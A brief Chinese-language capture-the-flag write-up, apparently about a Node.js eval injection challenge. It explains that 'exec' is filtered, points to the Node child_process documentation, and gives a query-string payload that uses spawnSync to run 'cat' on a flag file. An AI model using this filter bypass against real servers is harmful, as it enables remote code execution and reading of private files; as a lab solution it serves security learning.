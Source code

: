 # 知识点
exec被过滤了<br />换spawn<br />[Child process | Node.js v17.9.1 Documentation](https://nodejs.org/docs/latest-v17.x/api/child_process.html#child_processspawncommand-args-options)<br />spawn第二个参数是接收命令的参数数组
# 思路
```php
?eval=require("child_process").spawnSync("cat",['fl001g.txt']).output
```

